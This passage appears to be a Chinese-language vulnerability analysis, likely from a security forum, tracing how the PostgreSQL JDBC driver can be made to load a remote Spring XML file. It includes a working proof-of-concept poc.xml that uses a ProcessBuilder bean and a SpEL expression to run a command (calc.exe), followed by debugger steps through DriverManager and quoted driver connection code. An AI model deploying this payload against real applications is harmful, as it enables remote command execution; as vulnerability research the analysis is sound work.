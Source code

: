 在恶意poc.xml文件下填入以下内容

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="test" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{test.start()}"/>
    </bean>
</beans>
```

在此处做断点，先`Force Set into`强制跟进到`java.sql.DriverManager`

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b4104603fd05031a2d44570ef6f8faed05cf63c9.png)包中

识别判断出将利用`org.postgresql.Driver`的jdbc驱动去连接数据库

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3986045c36e70ac4e37deebd74aa7a49aa061c66.png)

以下代码处将取出`dbUrl`中的值重新赋值，并调用`makeConnection`开始尝试连接数据库

```java
Properties props = new Properties(defaults);
    if (info != null) {
      Set<String> e = info.stringPropertyNames();
      for (String propName : e) {
        String propValue = info.getProperty(propName);
        if (propValue == null) {
          throw new PSQLException(
              GT.tr("Properties for the driver contains a non-string value for the key ")
                  + propName,
              PSQLState.UNEXPECTED_ERROR);
        }
        props.setProperty(propName, propValue);
      }
    }
    // parse URL and add more properties
    if ((props = parseURL(url, props)) == null) {
      return null;
    }
    try {
      // Setup java.util.logging.Logger using connection properties.
      setupLoggerFromProperties(props);

      LOGGER.log(Level.FINE, "Connecting with URL: {0}", url);

      // Enforce login timeout, if specified, by running the connection
      // attempt in a separate thread. If we hit the timeout without the
      // connection completing, we abandon the connection attempt in
      // the calling thread, but the separate thread will keep trying.
      // Eventually, the separate thread will either fail or complete
      // the connection; at that point we clean up the connection if
      // we managed to establish one after all. See ConnectThread for
      // more details.
      long timeout = timeout(props);
      if (timeout <= 0) {
        return makeConnection(url, props);
      }
```
